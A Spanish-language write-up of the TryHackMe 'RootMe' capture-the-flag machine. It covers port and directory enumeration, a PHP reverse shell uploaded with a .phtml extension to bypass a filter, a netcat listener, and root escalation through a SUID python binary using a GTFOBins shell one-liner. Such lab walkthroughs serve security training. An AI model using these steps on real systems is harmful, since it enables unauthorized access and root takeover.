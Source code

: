 # Resolución de la Máquina: RootMe

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 14/06/2025
- **Sistema Operativo:** Linux
- **Categoría:** Escalada de privilegios


## Descripción

"Root Me" es una máquina de nivel fácil diseñada para introducir a los usuarios en conceptos fundamentales de pruebas de penetración web y escalada de privilegios en sistemas Linux. Es ideal para principiantes que están dando sus primeros pasos en entornos de CTF.

Durante la resolución, el atacante debe identificar una vulnerabilidad web común que permite obtener acceso inicial al sistema. Posteriormente, se explora una sencilla pero efectiva técnica de escalada de privilegios basada en archivos SUID mal configurados.

Esta máquina es especialmente útil para:

> Practicar enumeración web y de servicios básicos

> Comprender cómo aprovechar inyecciones simples o ejecución remota de comandos

> Aplicar técnicas básicas de post-explotación

> Identificar binarios con permisos indebidos en sistemas Linux


## Enumeración

### Escaneo con Nmap

```bash
sudo nmap -sV -p- -T5 -sS -Pn 10.10.71.90

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-14 19:09 CEST
Warning: 10.10.71.90 giving up on port because retransmission cap hit (2).
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.46% done; ETC: 19:10 (0:00:30 remaining)
Nmap scan report for 10.10.71.90
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Escaneo con Gobuster

```
gobuster dir -u http://10.10.14.154 -w /usr/share/wordlists/wfuzz/general/common.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.14.154
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.14.154/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.14.154/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.14.154/panel/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.14.154/uploads/]
Progress: 3804 / 3808 (99.89%)
===============================================================
Finished
===============================================================
```
## Explotación

Accederemos al directorio /panel/, allí veremos que podemos subir archivos, por lo que trataremos de cargar un reverse shell en PHP que generaremos a través de https://www.revshells.com/
Nos encontraremos con que no podemos subir archivos con extensión PHP, por lo tanto le definiremos la extensión de PHTML.

Una vez cargado lo ejecutaremos accediendo al directorio /uploads/, habiendonos puesto en escucha previamente por netcat.

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.219] from (UNKNOWN) [10.10.14.154] 51008
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:56:50 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (914): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$
```

Para favorecer al tratamiento de la bash lanzaremos los siguientes comandos.

`python3 -c 'import pty; pty.spawn("/bin/bash")'`	Nos genera una shell interactiva
`export TERM=xterm`	Informa a los programas del tipo de terminal

Una vez establecida la conexión mediante la reverse shell ejecutaremos el siguiente comando para buscar la flag que nos solicitan

```
www-data@rootme:/$ find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
www-data@rootme:/$
```
## Escalada de privilegios

Para ello buscaremos aquellos binarios que tengan el SUID activado, estos archivos se ejecutan con los permisos del propietario (normalmente root), sin importar quién los ejecute.

```
www-data@rootme:/$ find -perm -4000 2>/dev/null
find -perm -4000 2>/dev/null
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec

```
Si buscamos en GTFOBins veremos que el binario de python es vulnerable a SUID

```
install -m =xs $(which python) .
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Fianlmente si accedemos a la carpeta de root veremos el flag de root.txt

